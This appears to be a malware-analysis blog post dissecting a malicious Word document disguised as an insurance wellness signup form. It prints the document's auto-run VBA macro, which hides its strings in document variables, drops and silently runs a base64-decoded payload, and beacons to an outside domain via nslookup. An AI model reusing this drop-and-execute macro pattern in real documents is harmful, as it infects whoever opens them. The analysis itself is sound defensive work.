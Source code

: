 The document presents as a signup form for an insurance health and wellness
program:

![](https://0xdfimages.gitlab.io/img/Penn-Document.png)

As is typical of malicious documents using VBA, it has text indicating that
you’ll need to enable macros.

Once macros are enabled, a message box pops up:

![msgbox](https://0xdfimages.gitlab.io/img/Penn-msgbox.png)

## VBA

### Raw

On dumping the VBA, we’ll see it’s pretty simple, but that the interesting
content is all held in Word document variables. These strings are accessed
using `ActiveDocument.Variables(VARIABLE_NAME)`.

    
    
    Sub AutoOpen()
        WordUpdateCheck
    End Sub
    
    Sub Document_Open()
        WordUpdateCheck
    End Sub
    
    
    Private Function DecodeBase64(ByVal strData As String) As String
    ...snip...
    End Function
    
    Sub WordUpdateCheck()
    
        Dim helper, fso, file, folderPath, filePath, version
        Set helper = CreateObject(ActiveDocument.Variables("Northern") & ActiveDocument.Variables("Beach") & ActiveDocument.Variables("Cali"))
        Set fso = CreateObject("Scripting.FileSystemObject")
        folderPath = helper.ExpandEnvironmentStrings(ActiveDocument.Variables("Stores")) & ActiveDocument.Variables("Retail") & ActiveDocument.Variables("LAX")
        If (fso.FolderExists(folderPath)) Then
            filePath = helper.ExpandEnvironmentStrings(ActiveDocument.Variables("Shoes")) & ActiveDocument.Variables("Bank") & ActiveDocument.Variables("Revenue") & ActiveDocument.Variables("2018")
            If Not (fso.FileExists(filePath)) Then
                Set file = fso.CreateTextFile(filePath, True)
                file.Write DecodeBase64(ActiveDocument.Variables("Fun")) & vbCrLf
                file.Close
                helper.Run folderPath & ActiveDocument.Variables("Shrink") & ActiveDocument.Variables("Running") & " " & filePath, 0, False
                MsgBox ActiveDocument.Variables("Panic"), vbExclamation, ActiveDocument.Variables("Waves")
            End If
        Else
            helper.Run "nslookup.exe pwdas71.healthservices-dns.com"
        End If
    End Sub
    
